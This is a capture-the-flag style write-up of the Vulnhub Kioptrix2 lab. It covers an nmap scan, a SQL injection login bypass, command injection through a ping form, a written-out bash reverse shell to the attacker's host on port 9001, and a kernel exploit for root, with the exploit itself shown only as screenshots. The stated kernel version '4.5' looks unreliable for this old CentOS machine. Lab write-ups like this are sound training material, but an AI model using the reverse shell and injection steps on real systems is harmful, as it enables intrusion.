 ```yaml
---
title: Vulnhub - Kioptrix2
published: true
---
```


Hey Guys This is Chan.This is a write up about kioptrix2 from vlunhub.

This is an really easy machine.So let's get jump in 

# [](#haeder-1)Enumeration

# [](#header-2)Port Scan

```
root@kali:~# nmap -sC -sV 192.168.99.42
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-29 15:11 EST
Nmap scan report for 192.168.99.42
Host is up (0.00019s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
|_ssl-date: 2019-12-30T01:12:18+00:00; +5h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:FC:FD:CE (Oracle VirtualBox virtual NIC)

Host script results:
|_clock-skew: 5h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.63 seconds
```
When I check nmap there is nothing was interesting 

So go to the web page 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/web-page.png)

and it is login page so I try 

```admin:admin
guest:guest
adminstrator:admin123
```

So then I try sqli auth bypass payload 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/sqli-admin-test.png.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/web-shell.png.png)

it said ping a machine on the network when I typed test and it show up test

So I realized that I can exute cmd in this so let's try 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/excute-command.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/command-excuted.png)

So here our comd excuted user as apache

So let's try to get reverse shell 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/try%20to%20get%20reverse%20shell.png)

```
bash -i >& /dev/tcp/192.168.99.48/9001 0>&1
```

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/getting%20reverse%20shell.png)

So here we got reverse shell

# [](#header-2)Privillege Escalation

So here we check the kernal version 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/check%20kernal%20version.png)

```
Kernal Version: 4.5
```
Then search for exploit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/found%20exploit.png)

Then I upload this exploit to machine 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/upload%20exploit.png)

Compiling the exploit and excute it then we got the shell with root 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/vuln-hub/exute%20exploit%20and%20get%20root.png)

That's it really easy 

Enjoy:-)
